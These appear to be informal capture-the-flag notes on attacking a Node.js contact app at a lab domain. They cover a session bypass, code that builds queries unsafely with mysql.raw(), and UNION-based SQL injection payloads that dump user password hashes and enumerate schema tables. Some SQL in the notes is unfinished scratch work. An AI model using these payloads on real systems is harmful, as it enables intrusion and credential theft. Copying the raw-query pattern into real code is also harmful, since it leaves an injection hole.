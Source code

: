 # Classic SQL Injection

# MySQL

DB credentials
```javascript
var mysql = require('mysql');

function createCon(){
    var connection  = mysql.createPool({
        connectionLimit: 4000,
        queueLimit: 3000,
        host: 'db',
        user: 'encontact',
        password: '',
        database: 'encontact',
        port: 3306,
        insecureAuth: true
    });

    return connection;
}

module.exports = createCon;
```

# SQL Queries
Searching server.js for queries that don't protect against SQL injection [note](https://github.com/mysqljs/mysql#escaping-query-values)
# References
- [SQLInjection](https://github.com/mysqljs/mysql)
- [Express](https://www.npmjs.com/package/express-session)

# Dashboard
contact twice with the same email and it will store your email in the `session.uniqueID` key. A non-null value is needed in order to authenticate a user. That's the trick.

# SQLi

The issue here is the call to [mysql.raw()](https://github.com/mysqljs/mysql#escaping-query-values)
```javascript
var query = "SELECT * FROM uniquecontact WHERE id=";

    if (session.uniqueID){

        try {
            if (reqparam.indexOf(',') > 0){
                var ids = reqparam.split(',');
                reqparam = "0";
                for (var i=0; i<ids.length; i++){
                    query += tempCont.escape(m.raw(ids[i]));
                    query += " OR id="
                }
                query += "?";
            }else{
                query = "SELECT * FROM uniquecontact WHERE id=?"
            }
```

```
957,956 union select * from users where token = ''--

[select%20id,%20name%20as%20full_name,%20email%20as%20email,%20null%20as%20phone,%20password%20as%20country,%20date_created,%20null%20as%20date_update%20from%20users](https://staging.jackfrosttower.com/detail/957,956%20union%20select%20*%20from%20users%20where%20token%20=%20''--)
```
root@localhost $2b$15$KOFchO9HQuAuGqs0SqYKq.fH1n8ssHP7.nSL58Dd53doWHkNoJtte
foo@bar.baz $2b$15$4OKMqPzc8OrmeXmRdJT5nuZrO14FIoacCmOlzKpkYvJcMyVYkXqbC
coolio123@coolio.com $2b$15$Gw/iywBkz6wbhFTTBAjFUO0OkqIYnTP1lW03hjxNF456zznvPctqm

blah@blah:stop

# References
- https://cryptokait.com/2020/02/24/password-cracking-with-hashcat/ 

```sql
SELECT * from uniquecontact where ID=123 OR ID=456 

union 
SELECT NOW() as date_update from (
    select * from uniquecontact 
full outer JOIN users on uniquecontact.full_name = user.name 
where 1=1;

SELECT column_name(s)
FROM table1
FULL OUTER JOIN table2
ON table1.column_name = table2.column_name
WHERE condition;

1,2 UNION SELECT DISTINCT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT column_name FROM information_schema.columns WHERE table_name ="todo" and table_schema LIKE 'encontact')d  JOIN (SELECT table_rows FROM information_schema.tables WHERE table_schema LIKE 'encontact')e  JOIN (SELECT 6)f JOIN (SELECT 7)g LIMIT 10 --

1,2 UNION SELECT DISTINCT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT completed FROM todo)d  JOIN (SELECT note FROM todo)e  JOIN (SELECT 6)f JOIN (SELECT 7)g LIMIT 12 --
```